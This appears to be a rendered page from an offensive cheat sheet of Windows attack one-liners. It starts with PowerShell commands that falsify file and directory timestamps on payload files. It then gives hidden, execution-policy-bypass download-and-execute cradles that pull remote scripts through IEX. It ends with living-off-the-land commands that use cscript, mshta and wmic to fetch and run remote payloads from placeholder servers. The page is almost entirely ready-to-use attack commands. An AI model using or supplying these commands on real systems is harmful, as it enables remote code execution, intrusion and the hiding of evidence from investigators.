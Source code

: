 # PowerShell Tricks:

## PowerShell Change Timestamp of Directory:

```PS> (Get-Item "C:\Windows\system32\MyDir").CreationTime=("01 March 2019 19:00:00")```

## PowerShell Changing Modification Time of a File:

```PS> (Get-Item "C:\ Windows\system32\MyDir\payload.txt").LastWriteTime=("01 March 2019 19:00:00")```

## PowerShell Changing Access Time of a File:

```PS> (Get-Item "C:\ Windows\system32\MyDir\payload.txt ").LastAccessTime=("01 March 2019 19:00:00")```

## Sneaky PowerShell Commands:

```powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file] '))"```

```powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetw orkCredentials;iwr('http://webserver/payload.ps1')|iex"```

# Living off the Land:

## Cscript/Wscript:

```cscript //E:jscript \\webdavserver\folder\payload.txt```

## MSHTA:

```mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload .sct"")"))```
```mshta \\webdavserver\folder\payload.hta```

## WMIC:

```wmic os get /format:"https://webserver/payload.xsl"```


